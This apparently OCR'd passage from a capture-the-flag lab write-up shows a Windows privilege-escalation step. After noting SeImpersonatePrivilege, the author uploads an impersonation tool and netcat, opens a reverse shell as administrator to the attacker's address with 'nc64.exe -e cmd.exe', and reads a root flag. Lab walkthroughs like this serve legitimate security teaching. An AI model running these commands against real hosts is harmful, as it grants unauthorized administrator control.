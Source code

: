 ```bash
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


```

we see impersonate priv 
```bash
upload god.exe
upload nc64.exe
```

now lets execute it
```bash
.\god.exe -cmd "nc64.exe -e cmd.exe 10.8.7.96 80"
```

we got reverse shell as admin so we can have root flag
```bash
nc -nlvp 80  
listening on [any] 80 ...
connect to [10.8.7.96] from (UNKNOWN) [10.10.125.29] 52908
Microsoft Windows [Version 10.0.20348.2227]
(c) Microsoft Corporation. All rights reserved.

```

```bash
C:\Users\Administrator\Desktop>type root.txt
type root.txt
VL{06a6c584a3492df1807f1d7c4de0ec56}

```
